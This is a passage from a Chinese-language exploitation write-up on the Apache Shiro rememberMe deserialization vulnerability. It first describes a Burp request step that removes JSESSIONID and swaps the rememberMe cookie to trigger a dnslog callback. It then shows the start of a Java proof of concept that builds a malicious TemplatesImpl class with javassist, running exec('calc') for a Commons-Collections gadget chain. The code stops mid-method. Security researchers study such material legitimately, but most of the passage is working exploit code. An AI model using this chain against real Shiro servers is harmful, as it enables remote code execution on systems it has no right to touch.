 burp抓包里的`Cookie`里去掉`JSESSIONID`（因为没有JSESSIONID才会读取rememberMe），替换 `rememberMe` 的值，发包则触发到dnslog

<img src=".\图片\Snipaste_2023-05-27_14-22-20.png" alt="Snipaste_2023-05-27_14-22-20" style="zoom: 80%;" />

## CC链

由于Shrio对resolveClass进⾏了修改，导致数组类⽆法加载，因此原⽣的cc链是⽆法直接使⽤的

```java
package com.zf1yolo;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class cc {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, NotFoundException, CannotCompileException, ClassNotFoundException {
// 通过字节码构建恶意类
        ClassPool classPool= ClassPool.getDefault();
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload=classPool.makeClass("CommonsCollections3");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes=payload.toBytecode();
//CC3
        TemplatesImpl templates = new TemplatesImpl();
        //  TemplatesImpl templates = new TemplatesImpl();
        Class<? extends TemplatesImpl> aClass = templates.getClass();
        Field nameField = aClass.getDeclaredField("_name");
        nameField.setAccessible(true);
```